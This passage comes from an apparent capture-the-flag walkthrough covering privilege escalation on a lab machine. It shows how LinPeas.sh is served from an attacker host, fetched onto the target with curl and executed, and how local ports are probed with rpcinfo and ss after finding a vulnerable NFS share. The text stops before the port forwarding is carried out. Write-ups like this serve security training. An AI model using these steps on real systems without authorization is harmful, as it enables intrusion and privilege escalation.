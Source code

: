 # Step 3: Privilege Enumeration & Escalation

lets download the **LinPeas.sh** into target machine using python3 server and curl command.

Attacker machine command:

Run the server where your LinPeas.sh file keepet.

`python3 -m http.server 50505`

Target machine command:

`curl -o LinPeas.sh http://10.8.246.32:50505/LinPeas.sh`

After download this file into the target machine, add the execut permission and then execute the file.

`chmod +x LinPeas.sh`

`./LinPeas.sh`

![LinPeas transfer]()

here I just put important pic of LinPeas result.

![nfs is vulnerable]()

Here we can see **NFS** is vulnerable. here is refence image about how to impact.

![info about nfs vulnerability]()

So lets connect the nfs directory to tmp directory in target machine. using **mount** command. but I can't able to mount because we dont have sudo command access. here is my fail attempt.

![internal mount error]()

so lets check any internal port is open or not by using **netstat** command in target machine.

`netstat -atl`

![netstat command fails]()

Here don't have the netstat command so we need to search about what is the alternative of the netstat command in cent os.

After some research i got the two way to find local ports into system

Command 1: `rpcinfo -p`

![netstat alternative option 1]()

Command 2: `ss -atnl` (It acctual similar works like netstat)

![netstat alternative option 2]()

Here we can see we need nfs port is open localy, so we need to portforwarding using ssh command.

